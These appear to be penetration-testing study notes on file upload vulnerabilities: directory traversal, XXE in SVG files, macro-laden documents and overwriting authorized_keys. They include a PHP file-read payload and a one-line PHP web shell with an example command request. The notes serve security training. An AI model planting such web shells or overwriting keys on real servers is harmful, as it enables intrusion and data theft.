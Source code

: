 # File Upload

When submitting HTML forms, the browser typically sends the provided data in a POST request with the content type `application/x-www-form-url-encoded`. This is fine for sending simple text like your name or address. However, it isn't suitable for sending large amounts of binary data, such as an entire image file or a PDF document. In this case, the content type `multipart/form-data` is preferred.

MIME Type (RFC 6838)



When testing a file upload form, we should always determine what happens when a file is uploaded twice:
- If the web application indicates that the file already exists, we can use this method to brute force the contents of a web server.
- Alternatively, if the web application displays an error message, this may provide valuable information such as the programming language or web technologies in use.




We can group File Upload vulnerabilities into three categories:
- vulnerabilities enabling us to upload files that are executable by the web application:
	Example: webshell `simple-backdoor.php`
	
- vulnerabilities that require us to combine the file upload mechanism with another vulnerability, such as Directory Traversal
	Example: if the web application is vulnerable to Directory Traversal, we can use a relative path in the file upload request and try to overwrite files like `authorized_keys`. Furthermore, we can also combine file upload mechanisms with XML External Entity (XXE) or Cross Site Scripting (XSS) attacks. For example, when we are allowed to upload an avatar to a profile with an SVG file type, we may embed an XXE attack to display file contents or even execute code.
	
- the third category relies on user interaction. For example, when we discover an upload form for job applications, we can try to upload a CV in `.docx` format with malicious macros integrated.


































## PHP
`<?php echo file_get_contents('/path/to/target/file'); ?>`
Once uploaded, sending a request for this malicious file will return the target file's contents in the response.

A more versatile web shell may look something like this:

`<?php echo system($_GET['command']); ?>`
`<?php echo system($_GET['cmd']); ?>`
This script enables you to pass an arbitrary system command via a query parameter as follows: `GET /example/exploit.php?command=id HTTP/1.1`

















## Using Non-Executable Files

Example:
Connect as root with our private key due to the overwritten authorized_keys file. Facing a scenario in which we can't use a file upload mechanism to upload executable files, we'll need to get creative to find other vectors we can leverage.

We should be aware, that blindly overwriting files in a real-life penetration test could result in lost data or costly downtime of a production system. 











